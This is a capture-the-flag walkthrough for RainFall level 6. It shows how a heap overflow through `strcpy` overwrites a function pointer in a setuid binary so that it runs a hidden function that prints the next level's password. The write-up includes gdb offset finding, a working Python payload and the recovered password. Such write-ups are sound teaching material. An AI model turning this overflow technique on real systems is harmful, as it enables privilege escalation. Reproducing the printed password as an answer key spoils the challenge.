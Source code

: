 # Rainfall Level 6 Guide
This guide will walk you through the process of finding the password for the `level6` user.

## 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level6
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
```

We can see that the `level6` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level7`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It segfaults.
```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
```
With an argument, it prints `Nope`.
```bash
level6@RainFall:~$ ./level6 test
Nope
```

## 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level6.c](Ressources/ghidra_analyse_level6.c), and the reconstructed C code in [source.c](source.c).

## 3. Analysis

We find a main function, that declares two variables, `dest` and `func`.
`dest` is a 64 bytes buffer, and `func` is a pointer to a function that takes no arguments and returns nothing.

```c
int main(int ac, char **av)
{
    char *dest;
    function_ptr *func;

    dest = (char *)malloc(64);
    func = (function_ptr *)malloc(4);
    *func = m;
    strcpy(dest, av[1]);
    (**func)();
    return(0);
}
```

`func` is set to the address of the function `m`, that prints `Nope`.
```c
void m(void)
{
    puts("Nope");
    return;
}
```
`dest` is copied from the first argument with `strcpy`.
Then, the function pointed by `func` is called with `(**func)();`, so `m` is called.

With Ghidra, we can see another function, `n`, that calls `system("/bin/cat /home/user/level7/.pass");`. But it is never called in our main function.
```c
void n(void)
{
    system("/bin/cat /home/user/level7/.pass");
    return;
}
```
We will try to execute the `n` function.

## 4. Find the `n` function address

We will use `objdump` to find the address of the `n` function. We can user `grep` to search the `n` char, or we can user `less` and search `n` with `/n`.
```bash
level6@RainFall:~$ objdump -d ./level6 | grep n
08048454 <n>:
```
We found the address of the `n` function: `0x08048454`.

## 5. Exploitation

### 5.1. Find the offset

The program call `strcpy(dest, av[1]);` without checking the size of the buffer `dest`. We can overflow the buffer and try to search the `eip` address to overwrite it with the address of the `n` function.

We generate a pattern with `Wiremask` and send it to the program.
```bash
level6@RainFall:~$ gdb ./level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
```
Now, we can check the `eip` value.
```bash
(gdb) info register eip
eip            0x41346341	0x41346341
```
The `eip` value is `0x41346341`. We can indicate this value to `Wiremask` to find the offset. `Wiremask` return `72`.

### 5.2. Overwrite the `eip`

We will overwrite the `eip` with the address of the `n` function.
The offset is `72`, and the address of the `n` function is `0x08048454`.
`0x08048454` in little-endian is `"\x54\x84\x04\x08"`.
So we can construct our payload with 72 bytes of padding and the address of the `n` function after.
```bash
level6@RainFall:~$ ./level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Congratulations!
We can now connect to the `level7` user with this password.
```bash
level6@RainFall:~$ su level7
Password:
level7@RainFall:~$
```
